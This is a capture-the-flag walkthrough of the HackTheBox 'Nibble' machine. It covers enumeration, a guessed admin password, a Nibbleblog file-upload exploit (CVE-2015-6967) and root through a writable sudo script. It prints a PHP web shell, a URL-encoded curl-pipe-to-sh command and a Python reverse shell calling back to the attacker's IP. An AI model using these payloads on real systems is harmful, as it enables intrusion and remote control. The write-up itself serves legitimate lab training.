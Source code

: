 ### Nibble HackTheBox

### Difficulty = Easy

### IP Address = 10.10.10.75

Nmap Scan:

```
┌──(mark__haxor)-[~/Desktop/B2B/HTB/Nibble]
└─$ nmap -sCV -A 10.10.10.75 -p22,80 -oN nmapscan
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-29 02:32 WAT
Nmap scan report for 10.10.10.75
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.92 seconds
```

Lets check out the web server running on port 80

It just says hello world
![image](https://user-images.githubusercontent.com/113513376/215299213-2dbb279e-201c-4f87-9a4e-a7e2dafd607b.png)

Checking source code reveals a directory
![image](https://user-images.githubusercontent.com/113513376/215299229-a49234bc-ec89-40a7-9f93-e141fc384435.png)

On navigating to the directory shows a blog page
![image](https://user-images.githubusercontent.com/113513376/215299268-b52c766f-fd77-4909-a7c4-98cea2e001df.png)

But no content (post) is there 

I'll fuzz for directories

```
┌──(mark__haxor)-[~/Desktop/B2B/HTB/Nibble]
└─$ gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.75/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2023/01/29 02:37:58 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 321] [--> http://10.10.10.75/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]
/content              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]
/languages            (Status: 301) [Size: 325] [--> http://10.10.10.75/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/plugins/]
/README               (Status: 200) [Size: 4628]
/themes               (Status: 301) [Size: 322] [--> http://10.10.10.75/nibbleblog/themes/]
Progress: 4614 / 4615 (99.98%)
===============================================================
2023/01/29 02:39:55 Finished
===============================================================
```

On navigating to `admin.php` shows a login page
![image](https://user-images.githubusercontent.com/113513376/215299373-a5a39af0-0f58-4544-b9e5-c9f3eac9ec37.png)

I don't know the user or password to use

So lets loot the web page to see if we can get any thing

On heading over to /content i got a file which showed the username for the admin page which is `admin`
![image](https://user-images.githubusercontent.com/113513376/215299778-4178b16a-767e-4031-b6dc-fd80d4dc5810.png)

```
URL: http://10.10.10.75/nibbleblog/content/private/users.xml
```

What is also interesting is that it blacklists IP that sends too much request to it 

And i was fuzzing for username while im currently doing this box

So brute forcing the login page won't be possible

Then i tried using the box name as password and it worked 
![image](https://user-images.githubusercontent.com/113513376/215299856-a30ef583-8571-4eb6-9c5d-f53de5d632df.png)

```
Credential: admin:nibbles
```

Cool now lets get shell via this

On checking the setting I get the version being used which is `Nibbleblog 4.0.3`
![image](https://user-images.githubusercontent.com/113513376/215300063-2679ba1f-72e3-4d94-ab84-21bd05f93f70.png)

Searching for exploit leads here [Exploit](https://github.com/dix0nym/CVE-2015-6967)

Lets run it and check it out

```
┌──(mark__haxor)-[~/Desktop/B2B/HTB/Nibble]
└─$ python3 exploit.py                                                                                                             
usage: exploit.py [-h] --url URL --username USERNAME --password PASSWORD --payload PAYLOAD
exploit.py: error: the following arguments are required: --url/-l, --username/-u, --password/-p, --payload/-x
```

I'll run the exploit now using all arguments needed

```
┌──(mark__haxor)-[~/Desktop/B2B/HTB/Nibble]
└─$ cat shell.php 
<?php system($_GET['cmd']); ?>
                                                                                                                                                                                                                   
┌──(mark__haxor)-[~/Desktop/B2B/HTB/Nibble]
└─$ python3 exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload shell.php
[+] Login Successful.
[+] Upload likely successfull.
[+] Exploit launched, check for shell
```

Now it uploaded in `/content/private/plugins/my_image/image.php`

So lets go check it out 
![image](https://user-images.githubusercontent.com/113513376/215300265-0e353242-a659-4328-ab74-a50aeaa168a3.png)

Cool we have RCE. Lets get a more stable shell

```
### Attacker
┌──(mark__haxor)-[~/Desktop/Scripts]
└─$ cat shell.sh 
#!/bin/bash

export RHOST="10.10.16.7";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
                                                                                                                                                                                                                   
┌──(mark__haxor)-[~/Desktop/Scripts]
└─$ pyws -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.75 - - [29/Jan/2023 03:05:07] "GET /shell.sh HTTP/1.1" 200 -

### Target 
URL: 10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?cmd=%63%75%72%6c%20%31%30%2e%31%30%2e%31%36%2e%37%2f%73%68%65%6c%6c%2e%73%68%7c%73%68
```

Back on the nc listener we get a connection back

```
┌──(mark__haxor)-[~/Desktop/B2B/HTB/Nibble]
└─$ nc -lvnp 4444    
listening on [any] 4444 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.75] 51572
$
```

Now lets stabilize it 

```
python3 -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
CTRL + Z
stty raw -echo;fg
reset
```

Now lets get root

On checking sudo permission shows that the user can run a script as root

```
nibbler@Nibbles:/home/nibbler$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$
```

Here's the content of the script 

```
nibbler@Nibbles:/home/nibbler$ ls -l /home/nibbler/personal/stuff/monitor.sh                                                                                                                                       
ls: cannot access '/home/nibbler/personal/stuff/monitor.sh': No such file or directory                                                                                                                             
nibbler@Nibbles:/home/nibbler$ ls                                                                                                                                                                                  
personal.zip  user.txt                                                                                                                                                                                             
nibbler@Nibbles:/home/nibbler$ unzip personal.zip                                                                                                                                                                  
Archive:  personal.zip                                                                                                                                                                                             
   creating: personal/                                                                                                                                                                                             
   creating: personal/stuff/                                                                                                                                                                                       
  inflating: personal/stuff/monitor.sh                                                                                                                                                                             
nibbler@Nibbles:/home/nibbler$ cd personal/stuff/                                                                                                                                                                  
nibbler@Nibbles:/home/nibbler/personal/stuff$ l                                                                                                                                                                    
l: command not found                                                                                                                                                                                               
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls                                                                                                                                                                   
monitor.sh                                                                                                                                                                                                         
nibbler@Nibbles:/home/nibbler/personal/stuff$ wc -l monitor.sh
117 monitor.sh
```

Now checking the permission on monitor.sh shows we have full access

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l monitor.sh 
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$
```

So all we need is to just replace it and get root

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat pwned.sh 
/bin/bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ mv monitor.sh monitor_real.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ mv pwned.sh monitor.sh 
nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod +x monitor.sh 
nibbler@Nibbles:/home/nibbler/personal/stuff$ 
```

Now lets run sudo as root

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
    
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
root@Nibbles:/home/nibbler/personal/stuff# cd /root
root@Nibbles:~# ls
root.txt
root@Nibbles:~# ls -al
total 32
drwx------  4 root root 4096 Dec 15  2020 .
drwxr-xr-x 23 root root 4096 Dec 15  2020 ..
-rw-------  1 root root    0 Dec 29  2017 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Dec 10  2017 .cache
drwxr-xr-x  2 root root 4096 Dec 10  2017 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root 1091 Dec 15  2020 .viminfo
-r--------  1 root root   33 Jan 28 17:48 root.txt
root@Nibbles:~# 
```

And we're done 


<br> <br>
[Back To Home](../../index.md)
<br>
